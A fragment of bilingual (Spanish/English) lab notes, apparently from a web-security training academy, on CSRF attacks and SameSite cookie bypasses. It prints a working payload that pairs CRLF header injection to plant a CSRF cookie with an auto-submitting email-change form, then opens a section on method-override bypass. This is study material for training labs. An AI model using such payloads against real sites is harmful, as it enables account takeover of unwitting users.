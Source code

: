 ![](/img2/Pasted%20image%2020250801000254.png)

- Injection

```html
<form class="login-form" name="change-email-form" action="https://0ac400e70468796f8036038700b1003c.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="">
    <input type="hidden" name="csrf" value="133lUZnimNZOkmnf5baPXZhPeTCKB6fQ">
</form>

<img src="https://0ac400e70468796f8036038700b1003c.web-security-academy.net/?search=testing123;%0D%0ASet-Cookie: csrf=133lUZnimNZOkmnf5baPXZhPeTCKB6fQ; SameSite=None" onerror=document.forms[0].submit();>
```

## Bypass de SameSite Lax con method override || SameSite Lax bypass via method override

![](/img2/Pasted%20image%2020250801185936.png)

> Vemos que el método GET no está permitido.

![](/img2/Pasted%20image%2020250801190024.png)
